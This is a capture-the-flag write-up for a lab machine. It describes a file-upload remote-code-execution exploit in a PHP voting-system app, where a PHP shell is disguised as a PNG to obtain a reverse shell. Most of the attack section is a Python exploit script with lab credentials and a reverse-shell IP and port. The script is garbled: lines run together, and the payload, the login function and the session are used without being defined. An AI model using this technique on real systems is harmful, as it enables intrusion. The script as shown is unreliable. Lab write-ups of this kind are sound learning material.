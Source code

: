 Reverse Shell
-------------

After researching “Voting System sourcecodester” on Google, results related to an RCE exploit via a file upload pop up.

The exploit works due to improper sanitization of image files. To upload a php shell as an image file, the exploit simply modifies the data of the POST request to replicate an image file\:

![](/reports/Love/image1.png)

Note the “image/png” line

Once this malicious file is uploaded, a GET request is performed on the file located in the /votesystem/images directory. In the context of this box, the /votesystem directory does not exist, and the script needs to be modified to remove the /votesystem string.

{% highlight python %}
import requests# --- Edit your settings here ----IP = "10.10.10.239" # Website's URLUSERNAME = "admin" #Auth usernamePASSWORD = "@LoveIsInTheAir!!!!" # Auth PasswordREV_IP = "10.10.14.111" # Reverse shell IPREV_PORT = "9001" # Reverse port  
# --------------------------------INDEX_PAGE = f"http\://{IP}/admin/index.php"LOGIN_URL = f"http\://{IP}/admin/login.php"VOTE_URL = f"http\://{IP}/admin/voters_add.php"CALL_SHELL = f"http\://{IP}/images/shell.php"  
  
payload = payload.replace("IIPP", REV_IP)  
payload = payload.replace("PPOORRTT", REV_PORT)  
  
def sendPayload()\:   if login()\:       global payload  
       payload = bytes(payload, encoding="UTF-8")  
       files  = {'photo'\:('shell.php',payload,                   'image/png', {'Content-Disposition'\: 'form-data'}  
                 )  
             }  
       data = {           "firstname"\:"a",           "lastname"\:"b",           "password"\:"1",           "add"\:""       }  
       r = s.post(VOTE_URL, data=data, files=files)       if r.status_code == 200\:  
           print("Poc sent successfully")       else\:  
           print("Error")  
  
def callShell()\:  
   r = s.get(CALL_SHELL, verify=False)   if r.status_code == 200\:  
       print("Shell called check your listiner")  
print("Start a NC listner on the port you choose above and run...")  
sendPayload()  
callShell()
{% endhighlight %}
